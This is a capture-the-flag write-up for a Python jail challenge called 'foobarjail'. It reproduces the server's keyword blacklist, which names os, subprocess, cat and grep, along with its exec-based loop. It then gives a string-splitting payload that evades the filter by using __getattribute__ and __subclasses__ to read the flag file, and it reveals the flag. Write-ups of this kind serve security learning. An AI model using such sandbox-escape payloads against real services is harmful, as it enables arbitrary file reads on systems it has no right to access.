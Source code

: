 # misc/foobarjail

## Description

How dare you tresspass, my friend?
nc chall.nitdgplug.org 30077

Downloads:
[chall](chall)

## Solution

For this challenge we are given the `server.py`:

```python
#!/usr/bin/env python 

from __future__ import print_function

print("=========================")
print("  WELCOME TO FOOBAR JAIL ")
print("=========================")

blacklist = [
    "import",
    "exec",
    "eval",
    "os",
    "pickle",
    "subprocess",
    "input",
    "blacklist",
    "sys",
    "ls",
    "cat",
    "echo",
    "la",
    "flag",
    "tac",
    "grep",
    "find"
]

builtin = __builtins__.__dict__.keys()
builtin.remove('raw_input')
builtin.remove('print')
for modules in builtin:
    del __builtins__.__dict__[modules]

while 1 == 1:
    try:
        print(">>>", end=' ')
        val = raw_input()
        
        for word in blacklist:
            if word.lower() in val.lower():
                print("Sorry!! You cannot use that here.")
                break
            else: 
                exec val   
    except:
        print ("What are you doing ? :(")
        continue
```
    
This is a typical python jail challenge. The usual approach for such a challenge is to get access to builtin functions
via the payload `{}.__class__.__base__.__subclasses__()`. With this it's then possible to read arbitrary files.
In our case, however, it is not possible to directly call `__class__` and `__subclasses__` since they contain the string
`la`. To bypass the blacklist, I used the `__getattribute__` function as follows:

```python
{}.__getattribute__("__cl" + "ass__").__base__.__getattribute__({}.__getattribute__("__cl" + "ass__").__base__, "__subcl" + "asses__")()
```

With this I could then read the flag:

```python
{}.__getattribute__("__cl" + "ass__").__base__.__getattribute__({}.__getattribute__("__cl" + "ass__").__base__, "__subcl" + "asses__")()[40]("fl" + "ag.txt").read()
```

Note that I had to pass the filename as `"fl" + "ag.txt"` to bypass the blacklist once again. This gave the flag `GLUG{h4v3_4_n!c3_e5c4p3_WKMN1IM7FU}`.

